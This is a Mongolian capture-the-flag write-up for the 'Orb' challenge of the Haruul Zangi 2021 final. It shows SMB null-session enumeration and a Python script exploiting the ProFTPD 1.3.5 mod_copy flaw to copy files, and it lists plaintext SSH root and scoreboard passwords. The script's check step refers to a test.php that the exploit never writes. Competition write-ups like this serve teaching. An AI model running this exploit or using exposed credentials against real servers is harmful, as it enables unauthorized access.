 ```yaml
---
published: true
---
```

# HZ 2021 Final Round Orb

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hzz.png">
</p>

"Харуул Занги 2021" амжилттай болж өндөрлөлөө. Миний бие энэ жил **AnonSec** багаас хоёр найзтайгаа хамт оролцсон бөгөөд 1-р шатанд 3-р байранд , 2-р шатанд 5-р байранд орсон билээ. Энэ жил өмнө жилийн тэмцээнийг сонирхолтой болгож өгсөн зүйл нь Финалын шат "Attack And Defense" төрлөөр явагдсан. Манай баг төдийлөн өндөр амжилт үзүүлж чадаагүй ч гэсэн өөрсдийн бодсон бодлогоо тайлбартайгаар хүргэх нь зүйтэй болов уу гэж бодлоо.

## Orb

Финалын шатанд баг бүрт тусдаа **Docker** үүсгэж өгсөн учраас эхлээд SSH-ээр хандаж орох хэрэгтэй болсон

Жишээ нь: **Манай багийн SSH login хэсэг**

Багийн нэр: **AnonSec**
<br>
Манай багийн domain: **hz-vulbox3.haruulzangi.mn**
<br>
SSH username: **root**
<br>
password: **u3RYQMZDaAg4bEEq6SmLOi**
<br>
[Онооны самбар харах , флагаа оруулах хэсэг:](http://final.haruulzangi.mn:19999/)
<br>
"Нэвтрэх нэр": **AnonSec**
<br>
"Нууц үг": **5Ft1ELGZOqUI87W4**

Үүний дараа бид challenge бүрийн docker-н мэдээллийг харахын тулд энэхүү тушаалыг ашиглах боломжтой

root@ip-10-10-20-23:~# **docker ps -a**

`e57944a41e96   orb             "/tmp/entrypoint.sh …"   9 hours ago    Up 6 hours   0.0.0.0:21->21/tcp, :::21->21/tcp, 0.0.0.0:139->139/tcp, :::139->139/tcp, 0.0.0.0:445->445/tcp, :::445->445/tcp, 0.0.0.0:2205->22/tcp, :::2205->22/tcp   orb`

Тушаалыг бичсэнээр бид нар **Orb** даалгаварлуу **bash shell** -ээр орж байгаа юм.

root@ip-10-10-20-23:~# **docker exec -it orb /bin/bash**

Орсны дараа файлуудыг нэг бүрчлэн туршиж үзэхэд **ProFTPd** , **Samba** гэсэн хоёр танил сервис байхыг харж болно. 

`Samba буюу SMB нь 445 , 139-р портон дээр ажилладаг файл хуваалцах боломжыг бүрдүүлдэг протокол`

`ProFTPd буюу FTP нь 21-р портон дээр ажилладаг файл дамжуулах боломжыг бүрдүүлдэг протокол`

> SMB дээр Null session үүсгэж нууц үг шаардлагүйгээр хандалт хийх боломжтой эмзэг байдал байдаг

> ProFTPd дээр хамгийн сайн мэдэх mod_copy эмзэг байдал байдаг

Одоо тэгвэл энэхүү хоёр сервисын уялдаа холбоог жаахан ойлгох хэрэг гарна. Эхлээд юуг ашиглаж болох вэ гэхээр:

SMB-г **Enumeration** хийж мэдээлэл цуглуулах хэрэгтэй.

`$IP = '18.162.113.173'`

`enum4linux -A $IP`

ингэснээр ямар хэрэглэгчид байгаа мэдээллийг , мөн default-аар байгаа бол шууд нууц үгийг олох боломжтой байдаг

`yondu`

`gamora`

`nebula`

гэсэн 3 хэрэглэгч олдлоо

Тэгвэл энэхүү 3 хэрэглэгчрүү ороход бидний Permission хүрэх үү? **Access** хийж чадах уу гэдгийг шалгахын тулд:

`$IP = '18.162.113.173'`

`smbmap -H 18.162.113.173`

|print$          |Disk      |Printer Drivers|
|----------------|----------|---------------|
|yondu           |Disk      |/samba/ is a nice planet to place orb ( Admin access )|
|gamora          |Disk      |Where is the orb? ( Admin access )|
|nebula          |Disk      |Why is gamora? ( Free access )|
|IPC$            |IPC       |IPC Service (e57944a41e96 server (Samba, Ubuntu))|
    
үүнээс харвал **nebula** хэрэглэгчрүү нэвтрэхэд **Free access**-тай буюу **Null session** үүсгэх боломжтой байгааг харж болно.

`smbclient //18.162.113.173/nebula`

нууц үг шаардлагагүй шууд **Enter** дараад орно

Энэ маань бидний файлаа хуулаад тавихад харах боломжтой хэрэглэгч гэж ойлгож болно.

За одоо ProFTPd-гээр үндсэн **flag** файлаа mod_copy хийж **nebula** хэрэглэгчрүү хуулах шаардлага үүсэж байгаа

IP-гаар нь скан хийж үзвэл:

`21/tcp   open   ftp         ProFTPD 1.3.5`

ProFTPd 1.3.5 хувилбар байсан бөгөөд Exploit-н хайж үзвэл

[Exploit хийх линк](https://www.exploit-db.com/exploits/36742)  энэхүү линкээр ороод үзэж болно

Шууд энэхүү exploit-г ажиллуулах боломжгүй бөгөөд үүнийг скрипт болгоод бага зэрэг өөрчлөлт оруулвал

```python
import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /flag\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /samba/nebula/flag.txt\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

**Exploit completed** болсоны дараа **smbclient**-аар орсон **nebula** хэрэглэгчээр ороод **dir** тушаалыг биелүүлэхэд **flag** хуулагдсан байх болно

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/flag.PNG">
</p>
